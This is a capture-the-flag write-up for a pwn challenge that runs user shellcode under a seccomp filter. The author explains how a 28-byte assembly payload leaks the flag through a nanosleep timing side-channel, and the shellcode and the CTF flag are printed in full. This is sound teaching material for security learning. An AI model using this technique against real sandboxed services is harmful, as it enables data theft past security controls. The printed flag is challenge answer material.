 # amirmir
[Description]
Yeah we amirmiring hard after this ctf

FLAG : ODESSEY{4m1rm1r_4d0rm1r_34551m44_w1d4d1_**w1_jr4d4_l4l4l4l4l4l}

# writeup
This is a straightforward challenge, but there's a catch: the program enforces seccomp restrictions, limiting allowed syscalls to `nanosleep`, `exit` and `sigreturn`.  
```yaml
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
## code analysis
The program starts by reading the flag from `./flag.txt` into a global variable.  
```c
void read_flag(){
    int fd = open("./flag.txt", O_RDONLY);
    if (fd < 0){
	puts("Please contact lmongol asap.");
	exit(EXIT_FAILURE);
    }
    flag[read(fd, flag, 1000)] = '\0';
}
```
Then, it creates a memory map and reads shellcode into it, which will be executed later.  
```c
void *create_execsp(){
    void *execsp = mmap((void *) 0x0, EXECSPZ, PROT_READ | PROT_WRITE | PROT_EXEC, 
		    MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
```

```c
    read(0, execsp, EXECSPZ);
    ...
    ((void (*) (void)) execsp) ();
```

for now the challenge seems like an easy shellcode injection, but before executing the shellcode `set_env()` is called which will set the [seccomp](https://en.wikipedia.org/wiki/Seccomp) rules limiting the syscalls we can use.  

## exploit
Our goal is to read the flag, not to get a shell. With **PIE disabled**, we know the flag's address is fixed, so we don’t need to worry about ASLR. The challenge is that we can only use the allowed syscalls, with [nanosleep](https://man7.org/linux/man-pages/man2/nanosleep.2.html) being the key.  
We can use a [timing side-channel attack](https://en.wikipedia.org/wiki/Timing_attack): extract a character from the flag, sleep for the corresponding ASCII value, and then close the connection. The timing delay will let us leak the flag character by character.  

The shellcode size is limited to 28 bytes, which isn’t much, but it’s enough to get the job done.  

```c
    #define EXECSPZ 28
    ...
    read(0, execsp, EXECSPZ);
```

### crafting the shellcode
In this article im only explaining my own shellcode, it's not the best nor the most optimized but **it works**  
```asm
    xor rax, rax;
    mov esi, {flag_addr + inc};
    lodsb;
    mov [rbp], rax;
    xor rsi, rsi;
    mov [rbp + 8], rsi;
    mov al, 35;
    mov rdi, rbp;
    syscall;
```
This is the shellcode i ended up with, using pwntools i send it everytime to get a character from the flag  
```asm
    xor rax, rax;
    mov esi, {flag_addr + inc};
    lodsb;
```
It starts by cleaning $rax because [losdb](https://www.felixcloutier.com/x86/lods:lodsb:lodsw:lodsd:lodsq) will store the character in the [lsb](https://en.wikipedia.org/wiki/Bit_numbering) so we need to junk bytes in rax, then moving the character pointer to esi (no need for rsi, pie is disabled which leaves the address of the flag to fit only in 4 bytes) then the dereferencing it with losdb and storing it in *rax*  

nanosleep takes two parameters `const struct timespec *duration` and `struct timespec *_Nullable rem`  
```c
       #include <time.h>

       struct timespec {
           time_t     tv_sec;   /* Seconds */
           /* ... */  tv_nsec;  /* Nanoseconds [0, 999'999'999] */
       };
```
We'll only focus on the **duration** for now, so rem can be set to null. Our priority is to store the duration, and the best place to store it is the stack (though .bss would work too, but FUCK YOU).  
```asm
    mov [rbp], rax;
    xor rsi, rsi;
    mov [rbp + 8], rsi;
```
We move rax which contains a character from the flag to rbp to set timespec.tv_sec and empty rsi to set rem to null and also set timespec.tv_nsec to 0  
```asm
    mov al, 35;
    mov rdi, rbp;
    syscall;
```
Everything is set up now. We just need to move 35 (the nanosleep syscall number) into rax, move rbp (our timespec struct) into rdi, and then execute the syscall.  
the connection automatically stops cause the binary hits a corrupted instruction and segfaults automatically cutting the connection, this worked locally but when executing it on the docker container it can completely fucked the sleeping time, i still have no idea why.  

Now that we've leaked a character from the flag, we can control the inc variable to leak the entire flag—just rinse and repeat.  

## unintended 
I didn't come across any unintended solutions during the competition, but I'm sure there are other ways to solve it. If you found one or have a different approach, feel free to DM me on discord: 0ur4n05.  

